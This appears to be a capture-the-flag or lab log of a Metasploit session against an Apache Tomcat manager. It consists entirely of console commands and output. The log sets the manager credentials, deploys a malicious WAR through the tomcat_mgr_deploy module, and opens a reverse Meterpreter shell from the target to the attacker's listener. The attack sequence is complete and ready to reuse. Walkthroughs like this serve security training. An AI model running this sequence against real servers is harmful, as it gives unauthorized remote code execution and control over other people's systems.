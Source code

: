 ## SHELL

```
msf6 > use 5
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_deploy) > options

Module options (exploit/multi/http/tomcat_mgr_deploy):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   no        The password for the specified username
   HttpUsername                   no        The username to authenticate as
   PATH          /manager         yes       The URI path of the manager app (/deploy and /undeploy will be used)
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                          no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/http/tomcat_mgr_deploy) > set HttpUsername tomcat
HttpUsername => tomcat
msf6 exploit(multi/http/tomcat_mgr_deploy) > set HttpPassword $3cureP4s5w0rd123!
HttpPassword => $3cureP4s5w0rd123!
msf6 exploit(multi/http/tomcat_mgr_deploy) > set RHOST 10.10.10.194
RHOST => 10.10.10.194
msf6 exploit(multi/http/tomcat_mgr_deploy) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/tomcat_mgr_deploy) > set LHOST 10.10.14.3
LHOST => 10.10.14.3
msf6 exploit(multi/http/tomcat_mgr_deploy) > set path /manager/text
path => /manager/text
msf6 exploit(multi/http/tomcat_mgr_deploy) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Using manually select target "Java Universal"
[*] Uploading 6213 bytes as 6eVR4M8.war ...
[*] Executing /6eVR4M8/U0i1pPA.jsp...
[*] Undeploying 6eVR4M8 ...
[*] Sending stage (58060 bytes) to 10.10.10.194
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.194:59922) at 2021-08-20 09:04:33 -0400

meterpreter > shell
```